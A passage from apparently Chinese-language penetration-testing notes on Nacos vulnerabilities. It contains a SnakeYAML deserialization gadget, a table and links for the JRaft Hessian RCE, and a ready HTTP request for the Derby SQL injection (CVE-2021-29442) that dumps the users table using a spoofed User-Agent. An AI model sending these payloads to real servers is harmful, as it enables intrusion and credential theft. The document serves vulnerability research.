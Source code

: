 ```yaml
!!javax.script.ScriptEngineManager [
    !!java.net.URLClassLoader [
        [!!java.net.URL ["file:///tmp/yaml-payload.txt"]],
    ],
]
```

## Nacos JRaft Hessian 反序列化

| 漏洞编号                                                                      | 影响版本                                                                                            | 简要描述                                                                                                                                    |
| ----------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------- |
| [QVD-2023-13065](https://nox.qianxin.com/vulnerability/detail/QVD-2023-13065) | 1.4.0 <= Nacos < 1.4.6 使用 cluster 集群模式运行 <br> 2.0.0 <= Nacos < 2.2.3 任意模式启动均受到影响 | 在 Nacos 集群处理部分 Jraft 请求时，攻击者可以无限制使用 hessian 进行反序列化利用，最终实现代码执行。该漏洞仅影响 7848 端口（默认设置下）。 |

没太玩得来，还是看以下师傅们的文章和 github 项目吧。

https://xz.aliyun.com/t/14324

文章：

-   Nacos 内网集群 Raft 反序列化漏洞 - baigei  
    [https://mp.weixin.qq.com/s/FUBdfMugEd-5k-CGyLbuJw](https://mp.weixin.qq.com/s/FUBdfMugEd-5k-CGyLbuJw)
-   Nacos Jraft Hessian 反序列化漏洞 - txf  
    [http://www.txf7.cn/archives/nacosjrafthessian-fan-xu-lie-hua-lou-dong](http://www.txf7.cn/archives/nacosjrafthessian-fan-xu-lie-hua-lou-dong)
-   Nacos JRaft Hessian 反序列化分析 - p1g3  
    [https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-反序列化分析/](https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-反序列化分析/)
-   JRaft 用户指南  
    [https://www.sofastack.tech/projects/sofa-jraft/jraft-user-guide/](https://www.sofastack.tech/projects/sofa-jraft/jraft-user-guide/)

项目：

-   [https://github.com/c0olw/NacosRce](https://github.com/c0olw/NacosRce)
-   [https://github.com/crumbledwall/nacos-hessian-rce-exp](https://github.com/crumbledwall/nacos-hessian-rce-exp)

## Nacos Derby SQL 注入

| 漏洞编号                            | 影响版本 | 简要描述                                 | 参考链接                                     |
| ----------------------------------- | -------- | ---------------------------------------- | -------------------------------------------- |
| CNVD-2020-67618 <br> CVE-2021-29442 |          | Nacos 启用了 derby DB 作为后端的 Storage | https://github.com/alibaba/nacos/issues/4463 |

可以和其它认证相关漏洞一起进行利用：

```http
GET /nacos/v1/cs/ops/derby?sql=%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%75%73%65%72%73 HTTP/1.1
User-Agent: Nacos-Server
Host: x.x.x.x

```
